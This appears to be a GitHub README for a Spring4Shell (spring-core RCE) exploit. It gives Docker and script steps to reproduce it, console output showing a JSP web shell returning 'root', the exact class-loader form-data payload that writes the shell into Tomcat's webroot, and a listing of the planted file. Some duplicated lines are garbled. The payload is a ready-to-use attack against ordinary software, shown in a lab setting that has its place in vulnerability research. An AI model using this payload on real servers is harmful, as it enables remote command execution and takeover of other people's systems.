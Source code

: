 # spring-core-rce

### How to reproduce

1. `docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29`
2. `python python spring-core-rce-exp.py --url "http://127.0.0.1:8082"`
3. check the console output

```shell
D:\Downloads>python spring-core-rce-exp.py --url "http://127.0.0.1:8082"
The vulnerability exists, the shell address is :http://127.0.0.1:8082/tomcatwar.jsp?pwd=j&cmd=whoami
got response:

D:\Downloads>python spring-core-rce-exp.py --url "http://127.0.0.1:8082"
The vulnerability exists, the shell address is :http://127.0.0.1:8082/tomcatwar.jsp?pwd=j&cmd=whoami
got response: root

//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -


D:\Downloads>
```

### Some details

The key form data send to the server is the following.

```data
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i 
if ("j".equals(request.getParameter("pwd"))) {
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while ((a = in .read(b)) != -1) {
        out.println(new String(b));
    }
}
%{suffix}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

And you can see a new file is created in the server.

```shell
┌──(liudonghua㉿DESKTOP-DELL)-[/mnt/c/Users/Liu.D.H]
└─$ docker exec -it 14a0ced28ebe bash
[root@14a0ced28ebe /]# ls -l /app/tomcat/webapps/ROOT
total 16
drwxr-x--- 3 root root 4096 Mar 31 02:48 META-INF
drwxr-x--- 5 root root 4096 Mar 31 02:48 WEB-INF
drwxr-x--- 3 root root 4096 Mar 31 02:48 org
-rw-r----- 1 root root  976 Mar 31 03:25 tomcatwar.jsp
[root@14a0ced28ebe /]# cd /app/tomcat/webapps/ROOT
[root@14a0ced28ebe ROOT]# cat tomcatwar.jsp
<% if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %>//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
<% if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %>//
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } -
[root@14a0ced28ebe ROOT]#
```

### Spring-beans RCE Vulnerability Requirements

- JDK9 and above;
- Using the Spring-beans package;
- Spring parameter binding is used;
- Spring parameter binding uses non-basic parameter types, such as general POJOs;

### References

1. [Spring4Shell Details and Exploit Analysis](https://www.cyberkendra.com/2022/03/spring4shell-details-and-exploit-code.html)
4. [Spring R-C-E 漏-洞](https://mp.weixin.qq.com/s?__biz=MzkyNjE2OTE4MA%3D%3D&chksm=c23a20a2f54da9b491f39019f83af8d6acdbfa8a788c38ce15e0e8ef3ba11c0a42b80eecfbc4&idx=1&lang=zh_CN&mid=2247483793&sn=2456c4dedc923a914d8d4ceb768c3ca2&token=344118411#rd)
2. [https://github.com/Mr-xn/spring-core-rce](https://github.com/Mr-xn/spring-core-rce)
3. [https://github.com/mcdulltii/SpringShell_0-day](https://github.com/mcdulltii/SpringShell_0-day)

